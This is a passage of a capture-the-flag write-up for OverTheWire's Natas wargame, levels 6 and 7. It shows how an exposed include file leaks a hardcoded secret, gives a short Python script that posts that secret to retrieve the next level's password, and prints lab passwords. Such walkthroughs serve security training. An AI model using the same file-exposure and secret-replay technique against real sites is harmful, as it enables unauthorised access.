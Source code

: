 `include "includes/secret.inc"` let check this path [http://natas6.natas.labs.overthewire.org/includes/secret.inc](http://natas6.natas.labs.overthewire.org/includes/secret.inc)

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

The above code requesting post request with parameter `$secret` with value of `FOEIUWGHFEEUHOFUOIU` , so let add this to our code , if `$secret == $_POST` is True this will return next level password without censored

```py
import requests
import re

username = 'natas6'
password = 'fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR'

url = 'http://%s.natas.labs.overthewire.org/'%username

sessions = requests.Session()
response = requests.post(url, data={'secret' : 'FOEIUWGHFEEUHOFUOIU' , 'submit':'submit'} ,
 auth = (username,password))

content = response.text
flag = re.findall("The password for natas7 is (.*)",content)[0]
print(flag)

```

---

### Natas 7

<img src="img/Pasted image 20240424121634.png" alt="Example Image" width="1080"/>
The site has two other page called `Home` and `About` , let view source page using inspect tool ,

```html

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr" };</script></head>
<body>
```